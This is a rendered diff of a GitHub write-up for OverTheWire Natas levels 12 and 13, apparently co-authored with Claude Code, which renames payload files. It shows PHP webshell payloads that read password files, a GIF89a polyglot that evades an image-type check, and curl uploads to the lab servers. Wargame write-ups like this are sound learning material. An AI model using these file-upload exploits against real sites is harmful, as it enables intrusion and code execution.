

Before and after one commit to jaher/overthewire-solutions, a Markdown page: natas-solutions.md, 2 parts joined by grey strips. Rendered like a GitHub page.

Commit message:
Natas L12/L13: use the transcript's payload filenames in the write-up
Co-Authored-By: Claude Code <noreply@anthropic.com>

````diff
--- a/natas-solutions.md
+++ b/natas-solutions.md
@@ -452,12 +452,12 @@ Verification rule used throughout: a password is accepted only if a request to
    The random prefix is generated server-side, but the **extension is taken from the client-supplied `filename` POST field**.
 2. **Write a PHP payload.** The payload prints the next password file; `printf` (not `echo`) avoids shell interpretation of `$`:
    ```
-   printf '<?php echo file_get_contents("/etc/natas_webpass/natas13"); ?>' > /tmp/shell.php
-   ls -l /tmp/shell.php
+   printf '<?php echo file_get_contents("/etc/natas_webpass/natas13"); ?>' > /tmp/n12shell.php
+   ls -l /tmp/n12shell.php
    ```
 3. **Upload it with a `.php` name.** `-F` builds a multipart request: `filename=shell.php` sets the POST field the handler trusts for the extension, and `uploadedfile=@...` attaches the file. The `;type=image/jpeg` only sets the part's content type — the server does not check it at this level:
    ```
-   curl -s -u natas12:<pw> -F 'filename=shell.php' -F 'uploadedfile=@/tmp/shell.php;type=image/jpeg' http://natas12.natas.labs.overthewire.org/index.php
+   curl -s -u natas12:<pw> -F 'filename=shell.php' -F 'uploadedfile=@/tmp/n12shell.php;type=image/jpeg' http://natas12.natas.labs.overthewire.org/index.php
    ```
    The response contains the stored path, e.g. `upload/t7fve9ekok.php`; the recording extracts it with `grep -o 'upload/[a-z0-9]*\.php'`.
 4. **Request the uploaded file.** The web server executes `.php` files, so the code runs with the web server's privileges and prints the password:
@@ -492,15 +492,15 @@ Verification rule used throughout: a password is accepted only if a request to
 2. **Understand exactly how weak that is.** It checks the **prefix only**, not the whole file, and it does not look at the extension. The six bytes `GIF89a` are the GIF signature, so a file that *starts* with them passes, whatever follows.
 3. **Build a polyglot: GIF header + PHP code.**
    ```
-   printf 'GIF89a' > /tmp/shell13.php
-   printf '<?php echo file_get_contents("/etc/natas_webpass/natas14"); ?>' >> /tmp/shell13.php
-   file /tmp/shell13.php
-   # /tmp/shell13.php: GIF image data, version 89a, 0 x 0   (or similar)
+   printf 'GIF89a' > /tmp/n13shell.php
+   printf '<?php echo file_get_contents("/etc/natas_webpass/natas14"); ?>' >> /tmp/n13shell.php
+   file /tmp/n13shell.php
+   # /tmp/n13shell.php: GIF image data, version 89a, 16188 x 26736
    ```
    `file` agrees it looks like a GIF, which is exactly what `exif_imagetype` will decide.
 4. **Upload with the same `.php` trick as level 12.** The extension still comes from the POST `filename` field:
    ```
-   curl -s -u natas13:<pw> -F 'filename=shell.php' -F 'uploadedfile=@/tmp/shell13.php;type=image/gif' http://natas13.natas.labs.overthewire.org/index.php
+   curl -s -u natas13:<pw> -F 'filename=shell.php' -F 'uploadedfile=@/tmp/n13shell.php;type=image/gif' http://natas13.natas.labs.overthewire.org/index.php
    ```
    The stored path this run is `upload/up58risls8.php`.
 5. **Request the stored file.** PHP ignores the leading GIF bytes (they are output, harmless) and executes the `<?php ... ?>` that follows:
````
